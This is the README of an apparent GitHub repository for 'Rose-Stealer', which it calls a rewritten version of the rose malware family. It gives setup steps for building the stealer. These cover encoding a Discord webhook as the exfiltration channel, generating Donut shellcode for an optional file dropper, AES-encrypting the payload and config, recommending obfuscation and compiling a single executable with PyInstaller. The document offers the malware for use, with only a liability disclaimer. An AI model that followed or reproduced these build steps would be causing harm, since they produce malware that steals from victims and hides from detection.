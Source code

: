 # 🐍 Rose-Stealer
## Rewritten version of the rose malware family.

> [!CAUTION]
> I am not liable for anything that is happening with this software.
> If you don't trust it, read the source.

> [!IMPORTANT]
> This is a small rewritten version for the rose implant.
> I don't provide support for this. You should know what you're doing.

## Requirements
- [Python 3.10+](https://python.org/downloads)
- Python-Libs installed (`pip install -r assets\requirements.txt`)

## Setup
#### [Download](https://github.com/0xRose/Rose-Stealer/archive/refs/heads/main.zip) the source code of this repository.
- Encode your Discord Webhook: `python utils\b85_encode.py DISCORD_WEBHOOK`
  - Place the output in the config.ini file
  ```ini
  [main]
  # base 85 encoded and hexified discord webhook
  discord_webhook=DISCORD_WEBHOOK <--- Put the encoded webhook here
  ```
- File dropper if wanted:
  - generate shellcode with [Donut](https://github.com/TheWover/donut) for an executable file to e.g. client\ `shellc.dat`
  - AES encrypt the shellcode file:
    - `python utils\aes_encrypt.py payload\shellc.dat payload\shellc.aes`
    - Copy the output key into your config.ini file like this:
    ```ini
    [shellcode_loader]
    # file path storing AES encrypted and compressed shellcode
    shellcode_file_name=shellc.aes
    # hexified 32 byte (128-bit AES key)
    shellcode_key=AES_KEY <--- Put the AES key here
    ```
- Now encrypt the config file:
  - `python utils\aes_encrypt.py payload\config.ini payload\config.aes`
  - Put the output key you received into the [malware source code](https://github.com/0xRose/Rose-Stealer/blob/main/payload/main.py) on line 380:
    ```py
    key = "AES_KEY"  # hexified 32 byte key (128-bit) <--- Put the AES key here
    ```
(Additionally i would recommend to add obfuscation on the script now.)
- You can now compile it into a binary: `pyinstaller --clean --onefile --add-data "payload\shellc.aes;." --add-data "payload\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp payload\main.py`

**Yay! Your executable is now inside of the `dist` folder.**
